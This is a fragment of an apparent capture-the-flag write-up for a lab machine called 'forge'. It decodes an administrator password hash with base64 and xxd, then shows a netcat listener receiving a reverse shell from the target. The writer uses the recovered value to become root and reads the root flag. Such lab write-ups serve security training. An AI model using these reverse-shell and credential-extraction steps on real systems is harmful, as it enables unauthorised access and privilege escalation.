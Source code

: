 ```jsx
:undef

          
```

"root", "password_hash" => "49e6hSldHRaiY[REDACTED]Sf/Lx67XEOz9uxhSBHtGU+YBzWF", "tags" => ["administrator"]}

### root hash

```jsx
└─$ echo -n '49e6hSldH[REDACTED]ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF' | base64 -d | xxd -p -c 100
e3d7ba85295d1[REDACTED]7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
                  
```

### remove the 4 byte

```jsx
e3 d7 ba  85  295d1d16a2[REDACTED]2f1ebb5c43b3f6ec614811ed194f98073585
```

```jsx
└─$ nc -lvnp 443                                                               
listening on [any] 443 ...
connect to [10.9.0.99] from (UNKNOWN) [10.10.112.160] 49678
bash: cannot set terminal process group (604): Inappropriate ioctl for device
bash: no job control in this shell
azrael@forge:~/chatbotServer$ su - root
su - root
Password: 295d1d16a261[REDACTED]27ff2f1ebb5c43b3f6ec614811ed194f98073585

ls
forge_web_service
root.txt
snap
cat root.txt
eabf7a0b05d[REDACTED]465d2fd0852

```
<style>
.center img {display:block; margin:auto;}
.wrap pre{white-space: pre-wrap;}
</style>
